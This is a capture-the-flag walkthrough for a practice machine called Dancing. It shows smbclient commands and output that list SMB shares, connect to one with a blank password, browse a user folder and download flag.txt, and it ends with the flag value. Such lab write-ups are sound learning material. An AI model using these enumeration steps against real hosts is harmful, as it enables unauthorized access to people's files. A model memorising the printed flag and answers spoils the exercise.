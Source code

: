 #### Guide on DANCING CTF Machine

##### Server message block (smb) is used for sharing files, printers and other resources on LAN or the internet.

1. What does the 3-letter acronym SMB stand for?<br>
server message block

2. What port does SMB use to operate at? <br>
445

3. What is the service name for port 445 that came up in our Nmap scan?<br>
microsoft-ds
	- microsoft directory services is a common service that runs over the Server Message Block (smb). It is responsiblef for directory and file-sharing services.
	
4. What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?<br>
-L

	```bash
	smbclient -L 10.129.23.34
	```
5. How many shares are there on Dancing?<br>
4
	```bash
	smbclient -L \\10.129.23.34\\Workshares
	Password for [WORKGROUP\ayumi]:

		Sharename       Type      Comment
		---------       ----      -------
		ADMIN$          Disk      Remote Admin
		C$              Disk      Default share
		IPC$            IPC       Remote IPC
		WorkShares      Disk    
		  
	Reconnecting with SMB1 for workgroup listing.
	do_connect: Connection to 10.129.23.34 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
	Unable to connect with SMB1 -- no workgroup available
	
	```
6. What is the name of the share we are able to access in the end with a blank password?<br>
WorkShares

7. What is the command we can use within the SMB shell to download the files we find?<br>
get
	```bash
	smbclient \\\\10.129.23.34\\WorkShares
	Password for [WORKGROUP\ayumi]:
	Try "help" to get a list of possible commands.
	smb: \> help
	?              allinfo        altname        archive        backup         
	blocksize      cancel         case_sensitive cd             chmod          
	chown          close          del            deltree        dir            
	du             echo           exit           get            getfacl        
	geteas         hardlink       help           history        iosize         
	lcd            link           lock           lowercase      ls             
	l              mask           md             mget           mkdir          
	more           mput           newer          notify         open           
	posix          posix_encrypt  posix_open     posix_mkdir    posix_rmdir    
	posix_unlink   posix_whoami   print          prompt         put            
	pwd            q              queue          quit           readlink       
	rd             recurse        reget          rename         reput          
	rm             rmdir          showacls       setea          setmode        
	scopy          stat           symlink        tar            tarmode        
	timeout        translate      unlock         volume         vuid           
	wdel           logon          listconnect    showconnect    tcon           
	tdis           tid            utimes         logoff         ..             
	!              
	smb: \> ls
	cd James.P
	smb: \James.P\> ls
	  .                                   D        0  Thu Jun  3 16:38:03 2021
	  ..                                  D        0  Thu Jun  3 16:38:03 2021
	  flag.txt                            A       32  Mon Mar 29 17:26:57 2021
	smb: \James.P\> get flag.txt
	getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
	```

8. Submit root flag<br>
5f61c10dffbc77a704d76016a22f1664

	- the flag.txt will be downloaded to your machine, so you can show that by using the command 'cat'
	
	
